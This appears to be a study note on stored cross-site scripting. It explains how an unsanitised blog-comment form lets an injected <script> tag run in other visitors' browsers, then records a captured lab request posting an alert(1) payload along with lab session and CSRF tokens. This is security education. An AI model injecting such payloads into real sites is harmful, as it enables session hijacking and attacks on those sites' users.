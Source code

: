 #### What is stored cross-site scripting?   
Stored XSS or persistent XSS araises when an application recieves data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. 

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP  request like the following:  

>POST /post/comment HTTP/1.1  
>Host: vulnerable-website.com  
>Content-Length: 100  
>postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net  

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
><p>This post was extremely helpful.</p>  
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
><script>/* Bad stuff here... */</script>  

Within the attacker's request, this comment would be URL-encoded as:  
>comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E  

Any user who visits the blog post will now receive the following within the application's response:
><p><script>/* Bad stuff here... */</script></p>  

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application. 

***

###### Lab: Stored XSS into HTML context with nothing encoded  
>POST /post/comment HTTP/1.1  
>Host: ac3a1ff01e93fd038023e57d00360025.web-security-academy.net  
>User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0  
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
>Accept-Language: en-US,en;q=0.5  
>Accept-Encoding: gzip, deflate  
>Referer: https://ac3a1ff01e93fd038023e57d00360025.web-security-academy.net/post?postId=2  
>Cookie: session=uE2UxMTA7XRIh1tvGZfMWOgWpunGIQUZ  
>Connection: close  
>Upgrade-Insecure-Requests: 1  
>Content-Type: application/x-www-form-urlencoded  
>Content-Length: 144  

>csrf=DrnM0FYX8iuxJY8DWROKokJK6svLtua9&postId=2&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=wardaddy&email=wardaddy%40localhost&website=
